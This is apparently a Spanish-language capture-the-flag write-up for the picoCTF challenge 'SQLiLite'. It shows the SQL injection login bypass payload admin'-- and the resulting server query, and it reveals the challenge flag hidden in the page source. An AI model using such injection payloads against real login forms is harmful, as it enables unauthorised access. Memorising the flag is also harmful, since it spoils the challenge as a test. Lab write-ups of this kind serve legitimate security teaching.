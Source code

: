 # SQLiLite

## Descripcion
Can you login to this website?Try to login [here](http://saturn.picoctf.net:64189/).
## Solucion
Nos conectamos al reto con el link que nos dan
Por el nombre del reto, podemos intuir que es un reto de inyeccion SQL, entonces probamos a usar el siguiente payload:
```
username: admin'--
password: asdasdasdasd
```

Y nos dice estamos loggeados pero no podemos ver la flag, entonces simplemente vemos el codigo fuente y ya esta:
```html
<pre>username: admin&#039;--password: adminSQL query: SELECT * FROM users WHERE name=&#039;admin&#039;--&#039; AND password=&#039;admin&#039;</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```

```flag
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```
## Notas adicionales

## Referencias
